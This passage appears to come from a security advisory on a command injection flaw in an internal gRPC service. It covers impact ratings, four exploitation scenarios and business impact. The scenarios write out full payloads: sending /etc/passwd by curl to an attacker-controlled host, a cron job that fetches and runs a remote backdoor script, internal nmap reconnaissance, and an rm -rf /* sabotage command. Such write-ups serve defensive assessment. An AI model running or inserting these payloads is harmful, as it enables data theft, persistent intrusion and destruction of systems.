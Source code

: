 - **High Confidentiality Impact (C:H)**: An attacker can gain access to all data accessible to the service, potentially including sensitive configuration files, environment variables, and application data.

- **High Integrity Impact (I:H)**: An attacker can modify any data accessible to the service, potentially including application files and configurations.

- **High Availability Impact (A:H)**: An attacker can render the service completely unavailable, for example by killing processes or consuming system resources.

The requirements for both VPN access and basic privileges reduce the score from Critical to High, but the potential for complete service compromise still warrants a substantial severity rating.

# Exploitation Scenarios
**Scenario 1: Insider Threat Data Exfiltration**
A disgruntled employee with valid VPN access and service credentials crafts a gRPC request with the payload: `ls -la /etc && cat /etc/passwd | curl -X POST -d @- https://attacker-controlled-server.com/collect`. When processed by the vulnerable service, this command first lists directory contents to identify interesting files, then sends the system's user information to an external server. The employee could similarly extract environment variables, configuration files, or application data while hiding their actions within legitimate service usage.

**Scenario 2: Compromised VPN Credentials**
An external attacker who has obtained valid VPN credentials and service authentication through phishing or credential stuffing sends a payload like: `echo "*/5 * * * * curl -s https://attacker.com/backdoor.sh | bash" > /tmp/cron_job && crontab /tmp/cron_job`. This creates a cron job that connects to the attacker's server every 5 minutes to download and execute commands, establishing persistence even if the original vulnerability is patched.

**Scenario 3: Internal Reconnaissance and Lateral Movement**
A contractor with temporary VPN access exploits the vulnerability to perform network reconnaissance with a payload such as: `ip addr && netstat -tuln && nmap -sT -p 1-1000 10.0.0.0/24`. This reveals network interfaces, listening ports, and other services in the internal network. The contractor can then use the compromised container as a pivot point to attack other services in the infrastructure that wouldn't normally be accessible from outside.

**Scenario 4: Service Sabotage**
A competing business partner with legitimate VPN access performs a targeted denial of service attack with the payload: `rm -rf /* 2>/dev/null || (for i in $(seq 1 10); do yes > /tmp/file$i & done)`. This either attempts to delete critical files or, if that fails due to permissions, spawns resource-intensive processes that consume CPU and storage until the container crashes or becomes unresponsive, potentially during a critical business operation.

# Impact Analysis
**Business Impact:**
- Internal data breaches exposing sensitive corporate or customer information, potentially triggering regulatory penalties (GDPR, CCPA, etc.)
- Service outages affecting business operations and customer experience
- Limited reputational damage as exploitation requires VPN access, suggesting an insider threat component
- Financial losses from incident response, forensic investigation, and remediation efforts
- Potential legal liability if customer data is compromised through internal access
- Increased security costs for improving VPN monitoring and access controls
